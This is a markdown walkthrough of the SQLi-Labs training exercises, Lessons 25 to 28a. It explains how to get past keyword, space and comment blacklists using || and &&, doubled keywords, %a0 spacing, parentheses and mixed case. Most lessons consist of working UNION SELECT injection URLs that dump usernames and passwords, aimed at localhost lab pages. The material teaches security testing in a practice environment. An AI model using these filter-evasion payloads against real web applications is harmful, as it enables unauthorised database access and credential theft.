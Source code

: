 # Chapter-09

## Bypassing blacklist filters

This section will be about bypassing blacklist filters. 

### Lesson 25

In this challenge the ```AND``` and the ```OR``` keyword have been filtered. This means that we cannot use ```AND``` or ```OR``` to perform SQL injections. 

The workaround for this is to use logical ```AND``` and ```OR``` operators, i.e ```&&``` and ```||```. Logical operators will work fine for these challenges. 

We can get the username and password by running the following command - 

```sql 
/sqlilabs/Less-25/?id=0'union select 1, group_concat(passwoorrd), group_concat(username) from users --+
```

:warning: Since, the ```OR``` and ```AND``` are being removed from the query, ```oorr``` can be used for table and column names that contain ```OR``` and ```AND```. 

:boom: Also to make use of ```||``` and ```&&``` will have to be url encoded. 

### Lesson 25a

This challenge is a bit tricky, as might miss the obvious here. In this challenge ```AND``` and ```OR``` have been blacklisted. 

When we try to break the query here, we'll soon realise that it cannot be broken as the input is sent as is. There is no ```'``` or ```"``` enclosing the input. We can find this out by trying out the below mentioned test - 

```sql 
https://localhost//sqlilabs/Less-25a/?id=1 %26%26 1 --+

https://localhost//sqlilabs/Less-25a/?id=1 %26%26 0 --+
```
We can see the output when we ```AND``` the query with 1 and we are unable to see the query when we ```AND``` it with 0. 

Now, we can get the usernames and passwords by entering this in the url - 

```sql
https://localhost/sqlilabs/Less-25a/?id=-1 union select 1, group_concat(username), group_concat(passwoorrd) from users limit 0, 1 --+
```

:warning: The output for ```UNION SELECT``` can only be seen if the preceeding query is invalid. 

### Lesson 26

This challenge has even more restrictions. Here the following will be removed from the input - 

1.  ```AND```
1.  ```OR```
1.  Spaces and comments

However, there is a workaround for cases where spaces are removed from the input. MySql tends to accept certain non-printable values like ```%a0```, ```%b0``` in the place of spaces. Therefore, ```%a0```, ```%b0``` can be used instead of spaces.

Another workaround for space filtering is to use parenthesis. Parenthesis can also be used to escape space filtering. 

Here is an example which shows both the above mentioned hacks - 

```sql
union(select(1),(2),(3))

union %a0 select %a0 1,2,3 
```

Also, since comments are filtered, we will have balance the query using ```&&``` and ```||``` operators.

The url will look somewhat like this - 

```sql 
http://localhost/sqlilabs/Less-26/?id=0' union %a0 select %a0 1,2,3 %a0 %26%26 '1
```

### Lesson 26a 

This challenge is exactly the same as lesson26 with the only difference being how the input is wrapped in the sql query. 

The url for this challenge looks somewhat like this - 

```sql
http://localhost/sqlilabs/Less-26a/?id=1') union %a0 select %a0 1,2,3 %a0 %26%26 ('1
```

Here's a funny thing about this challenge, when you try to check for the validity of ```1'``` with the ```&&``` operator, it will come out to be true. 

i.e. if you type the following in the url you will see the desired result (i.e. the website shows nothing when the boolean value is evaluated to false and the website shows some information when the boolean value is evaluated to true).

```
http://localhost/sqlilabs/Less-26a/?id=1' %26%26 '1
http://localhost/sqlilabs/Less-26a/?id=1' %26%26 '0


SELECT * FROM users WHERE id=('1999' union select 1, 2, 3 && '1') LIMIT 0,1; [Backend query]
```

and

```
http://localhost/sqlilabs/Less-26a/?id=1') %26%26 ('1
http://localhost/sqlilabs/Less-26a/?id=1') %26%26 ('0

SELECT * FROM users WHERE id=('199') union select 1, 2, 3 && ('0') LIMIT 0,1; [Backend query]
```

Both the above mentioned queries will show similar results for the above attack. But they will differ when ```union select``` statement is used. 

### Lesson 27 

```
/sqlilabs/Less-27/?id=' %a0 uNion %a0 sElect %a0 1,2,3 %a0 or %a0 '1
```

### Lesson 27a

```
/sqlilabs/Less-27a/?id=" %a0 uNiOn %a0 sEleCt %a0 1,database(),3%a0 and  %a0 "1
```

### Lesson 28

```
/sqlilabs/Less-28/?id=1999') %a0 union %a0 select %a0 1,2,3 %a0 or %a0 ('1
```

### Lesson 28a

The space between union and select. The program is removing ```union select``` together. 

```
/sqlilabs/Less-28a/?id=6') %a0 uNiOn%a0sEleCt %a0 1, 1, 2 or ('0
```